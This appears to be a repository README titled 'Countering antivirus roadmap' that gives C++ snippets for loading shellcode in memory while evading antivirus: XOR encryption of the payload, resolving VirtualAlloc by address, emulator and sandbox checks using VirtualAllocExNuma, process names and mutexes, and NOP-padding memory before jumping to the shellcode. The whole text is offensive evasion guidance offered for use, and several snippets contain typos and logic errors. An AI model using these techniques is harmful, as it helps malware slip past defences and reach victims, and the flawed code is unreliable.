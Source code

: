 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.
[Allocating](#Allocating)
## Shellcode encryption
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## Using functions via address

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## Result processing Windows API

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //exec shellcode
  }
  return 0;
```
## Сhecking the process name

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```

## Сhecking mutex before launching

You can start the program execution process only if a certain mutex is found in the system. If you try to create an existing mutex, the process throws an error.

for example:
```
 HANDLE mutex;
 mutex = CreateMutex( NULL, TRUE, "MY_MUTEX");
 
 if ( GetLastError() == ERROR_ALREADY_EXIST );
 {
  // exec shellcode
 }
 esle 
 {
  startExe("my_proc.exe");
  Sleep(1000);
 }
 return 0;
```

## <a name="Allocating">Allocating a large amount of memory for shellcode</a>

With dynamic program analysis, antiviruses analyze the allocated memory, but they can analyze a certain amount of memory. you can allocate more memory than is necessary to write the silk code and write the first part, which will be analyzed by antivir with empty bytes.

for example:
```
 char *ex = VirtualAlloc(NULL, sizeof(shellcode)*2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 char *ex2 = ex + sizeof(shellcode);
 memcpy(ex2, shellcode, sizeof(shellcode));
 
 for( int i=0; i<=sizeof(shellcode)-1; i++)
 {
  ex[i] = 0x90;
 }
 
 ((void(*)())ex)();
```
